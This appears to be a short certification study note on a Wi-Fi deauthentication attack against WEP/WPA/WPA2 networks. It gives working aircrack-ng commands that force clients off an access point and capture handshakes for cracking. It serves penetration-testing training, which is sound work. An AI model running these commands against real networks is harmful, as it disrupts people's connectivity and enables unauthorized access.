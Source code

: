 # OSWP - Deauthentication Attack (WEP/WPA/WPA2)

This attack sends disassocate packets to one or more clients which are currently associated with a particular access point. Disassociating clients can be done for a number of reasons:

* Recovering a hidden ESSID. This is an ESSID which is not being broadcast. Another term for this is “cloaked”.
* Capturing WPA/WPA2 handshakes by forcing clients to reauthenticate
* Generate ARP requests (Windows clients sometimes flush their ARP cache when disconnected)

Of course, this attack is totally useless if there are no associated wireless client or on fake authentications.

## Commands

* Run [setup](../../setup.md) first
* Two terminals are needed, so `screen` is your friend
* At least one client must be associated with the AP
* No need to fakeauth, the first deauth will set AUTH to OPN

```bash
# [Terminal One]
# Set interface to monitor mode
sudo airmon-ng start $DEVICE $CHANNEL

# Start monitoring - make terminal large enough to see everything
sudo airodump-ng -c $CHANNEL --bssid $BSSID -w $TAG $INTERFACE

# [Terminal Two]
# Run the deauthentication attack
sudo aireplay-ng --deauth 0 -a $BSSID -c $CLIENT $INTERFACE
```
*Note: Run ping on the client, pinging the AP, to see ping freeze while running the deauth attack.*

## References

* [Airmon-ng](https://www.aircrack-ng.org/doku.php?id=airmon-ng)
* [Aireplay-ng](https://www.aircrack-ng.org/doku.php?id=aireplay-ng)
* [Deauthentication](https://www.aircrack-ng.org/doku.php?id=deauthentication)
* [REdBlueTeam](https://youtu.be/_9qJ1Urpn0Y?t=2285)
